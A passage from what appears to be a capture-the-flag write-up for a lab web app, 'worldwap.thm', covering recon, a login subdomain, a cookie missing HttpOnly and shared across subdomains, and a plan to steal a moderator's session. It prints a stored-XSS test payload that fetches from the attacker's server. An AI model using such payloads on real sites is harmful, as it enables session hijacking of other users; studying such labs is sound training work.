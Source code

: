 Visiting `http://worldwap.thm/`, we get redirected to `http://worldwap.thm/public/html/`.

![Web Server Worldwap Index](worldwap_index.webp){: width="1200" height="900" }

Checking out the registration functionality, we see a message informing us that our registration details will be viewed by the site moderator.

![Web Server Worldwap Register](worldwap_register.webp){: width="1200" height="900" }

After registering an account, we get redirected to `http://worldwap.thm/public/html/login.php`, where we can login.

![Web Server Worldwap Login](worldwap_login.webp){: width="1200" height="900" }

We also discover a subdomain: `login.worldwap.thm`

Adding it to our hosts file.

```
10.10.100.74 worldwap.thm login.worldwap.thm
```
{: file="/etc/hosts" }

### login.worldwap.thm

Visiting `http://login.worldwap.thm/`, we get an empty page.

![Web Server Login Worldwap Index](login_worldwap_index.webp){: width="1200" height="900" }

Checking the source code for the page, we discover the `login.php` endpoint.

![Web Server Login Worldwap Index Sourcecode](login_worldwap_index_sourcecode.webp){: width="800" height="300" }

At `http://login.worldwap.thm/login.php`, we get a login page.

![Web Server Login Worldwap Login](login_worldwap_login.webp){: width="1200" height="900" }

## Moderator Flag

At `http://worldwap.thm/`, upon following the redirect to `http://worldwap.thm/public/html/`, we see the site setting a cookie.

Interesting things to note is; `HttpOnly` attribute is missing from the cookie and `domain=.worldwap.thm` attribute that makes the same cookie being used for any subdomains, like `login.worldwap.thm` in our case.

Since we know our registration form will be reviewed by the moderator, we can try XSS payloads on registration, and due to the `HttpOnly` attribute being missing on the cookies, if we find an XSS vulnerability, we can use it to steal the cookies for the moderator.

Trying a simple XSS payload like `<script>fetch('http://10.11.72.22/');</script>` on the `Name` field while registering, we get a hit on our webserver confirming XSS.

![Web Server Worldwap Register XSS Test](worldwap_register_xsstest.webp){: width="1200" height="900" }
